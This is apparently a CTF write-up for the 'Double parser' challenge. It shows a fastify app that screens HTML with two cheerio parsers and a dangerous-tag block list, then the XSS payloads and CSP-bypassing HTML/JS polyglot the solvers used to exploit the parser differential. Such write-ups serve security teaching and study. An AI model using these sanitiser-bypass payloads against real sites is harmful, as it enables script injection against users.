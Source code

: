 ### Double parser

The challenge was to execute an XSS in the following application:

```js
import fastify from "fastify";
import * as cheerio from "cheerio";
import fs from "node:fs";

const app = fastify();

// Do not use dangerous tags.
const validateTags = ($) => {
  const DANGEROUS_TAGS = [
    "script",
    "noscript",
    "iframe",
    "frame",
    "object",
    "embed",
    "template",
    "meta",
    "svg",
    "math",
  ];
  return $(DANGEROUS_TAGS.join(",")).length === 0;
};

const validate = (html0) => {
  if (typeof html0 !== "string") throw "Invalid type";
  if (html0.length > 1024) throw "Too long";
  if (/[^\r\n\x20-\x7e]/.test(html0)) throw "Invalid characters";

  // Parser 1: parse5
  // ref. https://cheerio.js.org/docs/advanced/configuring-cheerio#parsing-html-with-parse5
  const $1 = cheerio.load(html0);
  if (!validateTags($1)) console.error("Invalid tags: Parser 1");
  const html1 = $1.html(); 

  // Parser 2: htmlparser2
  // ref. https://cheerio.js.org/docs/advanced/configuring-cheerio#using-htmlparser2-for-html
  const $2 = cheerio.load(html1, { xml: { xmlMode: false } });
  if (!validateTags($2)) console.error("Invalid tags: Parser 2");
  const html2 = $2.html();


  return html2;
};

const defaultHtml = fs.readFileSync("index.html", { encoding: "utf8" });

app.get("/", async (req, reply) => {
  try {
    const html = validate(req.query.html ?? defaultHtml);
    reply
      .type("text/html; charset=utf-8")
      .header("Content-Security-Policy", "script-src 'self'")
      .send(html);
  } catch (err) {
    reply.type("text/plain").code(400).send(err);
  }
});

app.listen({ port: 3000, host: "0.0.0.0" });
```

The app sanitizes the input twice through `parse5` and `htmlparser2`. Bypassing the 1st parser was difficult and in most of our testing it was following Chrome implementation. However, bypassing the second parser was quite eassy as it didn't distinguish between text nodes like `<xmp>` or `<noframes>` and treated the content inside them as elements. 

The easiest bypass is as the following: 

```html
<xmp><style></xmp><script>alert()</script></xmp></xmp></style></xmp>
```

but it will be blocked by the first parser. After some trial an error, we've crafted

```html
<xmp><a/id="</xmp><a/id="><style></xmp><script/src='?html=<!%0aalert()//'></script>">
```

Which was passing through the 1st parser and was executing an alert by the second. The reason is that the `htmlparser2` escapes `<` and `>` to `&lt;` and `&gt;` and converted it to:

```html
<xmp><a/id="&lt;/xmp&gt;&lt;a/id="><style></xmp><script/src='?html=<!%0aalert()//'></script>">
```

After which, the `<script>` executes.

One last piece of the solution was to bypass the CSP and we did with the html/js plyglot:

```js
<!
alert()//
```
